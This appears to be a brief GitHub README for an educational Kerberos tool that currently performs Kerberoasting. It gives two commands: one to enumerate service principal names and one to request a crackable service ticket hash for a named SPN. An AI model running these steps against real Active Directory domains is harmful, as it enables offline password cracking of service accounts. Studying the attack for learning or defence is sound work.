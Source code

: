 # kerberos

This repo contains educational code I created to better understand Kerberos. The repo now only includes code to use a Kerberoasting attack, but I might add new Kerberos attacks in the future.

# How to use

First search for an SPN you want to Kerberoast:  
```setspn Q */*```

Once you've found an SPN, use it as a parameter to get the TGS hash which you can use to crack:  
```Kerberos.exe MSSQLSERVER/SQL-Server.thalpius.demo:1433```
